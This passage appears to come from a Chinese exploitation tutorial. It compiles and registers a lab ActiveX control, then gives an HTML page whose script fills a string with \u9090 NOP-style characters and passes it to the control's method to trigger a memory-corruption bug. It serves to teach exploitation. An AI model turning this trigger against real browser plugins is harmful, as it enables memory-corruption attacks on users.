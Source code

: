 ![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x012-005.png)
如图设置好项目属性, 选择release版本, 禁用优化, 编译链接, 最后在cmd键入"Regsvr32 /path/to/activex.ocx"注册控件

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 45) {
s += "\u9090";
}
test.test(s);  
</script>  
</body>  
</html>
```
